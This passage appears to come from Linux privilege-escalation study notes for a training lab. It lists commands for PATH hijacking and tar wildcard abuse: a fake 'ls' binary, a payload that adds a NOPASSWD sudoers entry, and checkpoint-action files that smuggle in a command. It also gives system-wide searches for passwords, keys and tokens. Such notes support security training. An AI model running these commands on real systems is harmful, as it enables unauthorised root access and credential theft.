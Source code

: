 ## Path Abuse

- **Current PATH**: Displays directories searched for executable commands.  
  `echo $PATH`
- **PATH Script Test**: Creates executable script in PATH directory for testing.  
  `echo 'netstat -tuln' > /usr/local/sbin/conncheck && chmod +x /usr/local/sbin/conncheck`
- **Prepend Current Dir**: Adds current directory to PATH for local binary priority.  
  `PATH=.:${PATH} && export PATH`
- **Malicious Binary**: Creates fake ls command that executes custom script.  
  `touch ls && echo 'echo "PATH ABUSE!!"' > ls && chmod +x ls`

## Wildcard Abuse

- **Tar Man Page**: Reviews tar checkpoint options for wildcard exploitation.  
  `man tar | grep -A5 checkpoint`
- **Cron Tar Jobs**: Finds cron jobs using tar command for wildcard abuse.  
  `crontab -l | grep tar`
- **Wildcard Payload**: Creates root.sh script for privilege escalation.  
  `echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh`
- **Checkpoint Action**: Creates tar option file to execute arbitrary command.  
  `echo "" > "--checkpoint-action=exec=sh root.sh"`
- **Checkpoint Trigger**: Creates tar option file to trigger checkpoint action.  
  `echo "" > --checkpoint=1`
- **Verify Payload**: Lists created wildcard abuse files in working directory.  
  `ls -la`

## General Credential Search
- **Config Files**: Finds all configuration files system-wide for credential hunting.  
  `find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null`
- **History Credentials**: Searches bash history files for exposed credentials.  
  `grep -r "pass\|key" ~/.bash_history /home/*/.sh_history 2>/dev/null`
- **Script Credentials**: Searches shell scripts for hardcoded credentials.  
  `find / -type f -name "*.sh" 2>/dev/null | xargs grep -l "pass\|key" 2>/dev/null`
- **XML Credentials**: Searches XML files for embedded credentials.  
  `find / -name "*.xml" -exec grep -l "password\|key" {} \; 2>/dev/null`
- **Environment Vars**: Dumps environment variables that may contain credentials.  
  `env | grep -E "(PASS|KEY|SECRET|TOKEN)"`

# Escaping Restricted Shells

A restricted shell limits user commands and directories for security. Common types include rbash (restricted Bourne shell), rksh (restricted Korn shell), and rzsh (restricted Z shell). These shells prevent directory changes, environment modifications, and external command execution.

## Restricted Shell Types
- **RBASH**: Limited Bourne shell preventing directory changes and environment modifications.
- **RKSH**: Restricted Korn shell blocking external commands and function creation.
- **RZSH**: Limited Z shell restricting scripts, aliases, and environment changes.
